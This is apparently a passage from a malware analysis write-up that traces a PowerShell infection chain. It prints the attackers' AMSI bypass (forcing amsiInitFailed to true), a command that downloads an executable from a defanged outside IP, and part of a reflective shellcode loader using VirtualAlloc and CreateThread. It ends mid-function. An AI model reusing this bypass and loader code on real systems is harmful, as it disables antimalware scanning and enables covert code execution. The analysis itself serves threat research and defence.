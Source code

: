```powershell
 $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like '*siU*s') {$c=$b}}
```
The downloaded phyllopodan7V7GD.php is then combined with the script to implement an AMSI bypass, setting amsiInitFailed to 'True'. This is a very old bypass technique created by Matt Graeber in 2016.

```powershell
$vl1 = ("BpurgB5kScMv4c06art5RWKJgSB28nf5lbr14c06art5RWKJqsaqYd2y0Ar14c06art5RWKJWvGhxE8INLDp4c06art5RWKJyn0TdLDEQQTh4c06art5RWKJ0EHxBKO1DmTq4c06art5RWKJPFsROw6TqJZu4c06art5RWKJQ3veKNHYjvzY" -match "4c06art5RWKJ"); #returns 'True'
$v2=$c.GetFields("NonPublic,Static");
Foreach($v3 in $v2) 
{if ($v3.Name -like "*am*ed") #looks for string that matches amsiInitFailed
{$v3.SetValue($null, $vl1)}}; # Sets amsiInitFailed to 'True'
```

After implementing the AMSI bypass, 'barasinghaby.ps1' is downloaded and executed. This script performs the following actions:

* It saves the downloaded guestwiseYtHA.exe into a byte array named $image
* It implements a function named GDT to 'Generate Delegate Types'
* It implements a function named GPA to 'Get Process Address' (equivalent to what the GetProcAddress API does, through reflection)
* It defines a $sc variable, which contains shellcode
* It injects the shellcode in memory via a combination of VirtualAlloc, CreateThread, and WaitForSingleObject

```powershell
[Byte[]]$image = (IWR -UseBasicParsing 'http://79.124.78[.]109/wp-includes/guestwiseYtHA.exe').Content;

function GDT
{
    Param
    (
        [OutputType([Type])]
            
        [Parameter( Position = 0)]
        [Type[]]
        $Parameters = (New-Object Type[](0)),
            
        [Parameter( Position = 1 )]
        [Type]
        $ReturnType = [Void]
    )

    $DA = New-Object System.Reflection.AssemblyName('RD')
    $AB = [AppDomain]::CurrentDomain.DefineDynamicAssembly($DA, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
    $MB = $AB.DefineDynamicModule('IMM', $false)
    $TB = $MB.DefineType('MDT', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $CB = $TB.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $Parameters)
    $CB.SetImplementationFlags('Runtime, Managed')
    $MB = $TB.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $ReturnType, $Parameters)
    $MB.SetImplementationFlags('Runtime, Managed')
        
    Write-Output $TB.CreateType()
}

function GPA
{
    Param
```